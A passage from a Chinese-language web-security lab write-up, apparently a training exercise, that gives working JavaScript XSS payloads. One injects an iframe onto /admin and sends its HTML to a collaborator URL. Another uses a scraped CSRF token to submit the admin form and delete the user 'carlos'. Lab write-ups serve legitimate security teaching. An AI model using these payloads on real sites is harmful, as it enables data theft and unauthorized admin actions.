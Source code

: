 function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=&gt;r.text().then(text=&gt;
	{
		xss(url, text, '"&gt;&lt;iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)"&gt;');
	}
	))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
&lt;/script&gt;</code></pre>

Collaborator交互或利用服务器日志会提供管理页面的源代码



<hr/>
part4：
检索源代码，会注意到有一个允许删除用户的表单。重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为相同的IP地址和端口号。
<pre><code>&lt;script&gt;
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&amp;username='+encodeURIComponent(vector)+'&amp;password=test&amp;csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=&gt;r.text().then(text=&gt;
	{
	xss(url, text, '"&gt;&lt;iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()"&gt;');
	}
	))
}

fetchUrl("http://$ip");
&lt;/script&gt;</code></pre>

 代码通过注入一个指向/admin页面的iframe提交表单以删除carlos




---


---

